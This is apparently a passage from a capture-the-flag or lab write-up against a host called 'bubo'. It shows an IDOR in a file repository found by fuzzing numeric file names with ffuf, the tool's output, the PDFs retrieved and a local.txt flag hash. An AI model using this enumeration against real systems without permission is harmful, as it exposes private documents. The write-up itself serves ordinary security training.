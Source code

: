 
***The webpage above the File repository of .txt should also give a hint for that. ||`Only official memos should be uploaded as PDFs`||. Normally once you find an IDOR like this you should make sure that you fuzz all the file extensions that the application is handling to get more inside information.***


The front page shows that important documents are uploaded as `PDF`'s
![[Pasted image 20241111163157.png]]

`ffuf` to identify pdf's
```bash
┌──(root💀gobots)-[11Nov2024 20:37:25]-[/home/kali]
└─# ffuf -w /usr/share/seclists/Fuzzing/5-digits-00000-99999.txt -u "http://bubo/scientific/repository/data/FUZZ" -e .txt,.pdf

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://bubo/scientific/repository/data/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/5-digits-00000-99999.txt
 :: Extensions       : .txt .pdf 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

11211.txt               [Status: 200, Size: 893, Words: 136, Lines: 21, Duration: 28ms]
11345.pdf               [Status: 200, Size: 67359, Words: 806, Lines: 524, Duration: 28ms]
13262.txt               [Status: 200, Size: 698, Words: 105, Lines: 15, Duration: 28ms]
14121.txt               [Status: 200, Size: 1187, Words: 183, Lines: 25, Duration: 27ms]
21925.pdf               [Status: 200, Size: 52794, Words: 597, Lines: 406, Duration: 28ms]
26711.txt               [Status: 200, Size: 1356, Words: 208, Lines: 31, Duration: 28ms]
31512.txt               [Status: 200, Size: 336, Words: 30, Lines: 18, Duration: 143ms]
42123.txt               [Status: 200, Size: 850, Words: 135, Lines: 20, Duration: 29ms]
74821.txt               [Status: 200, Size: 1499, Words: 227, Lines: 33, Duration: 71ms]
82911.txt               [Status: 200, Size: 1308, Words: 169, Lines: 42, Duration: 28ms]
:: Progress: [300000/300000] :: Job [1/1] :: 1351 req/sec :: Duration: [0:04:12] :: Errors: 0 ::

```


`http://bubo/scientific/repository/data/11345.pdf`
![[Pasted image 20241111163339.png]]
`http://bubo/scientific/repository/data/21925.pdf`
![[Pasted image 20241111163422.png]]

#### local.txt
`89833478130e862e02aa2c547923addd`
displays a new directory to browse to `http://bubo/personnelSubmission/`
![[Pasted image 20241111163514.png]]

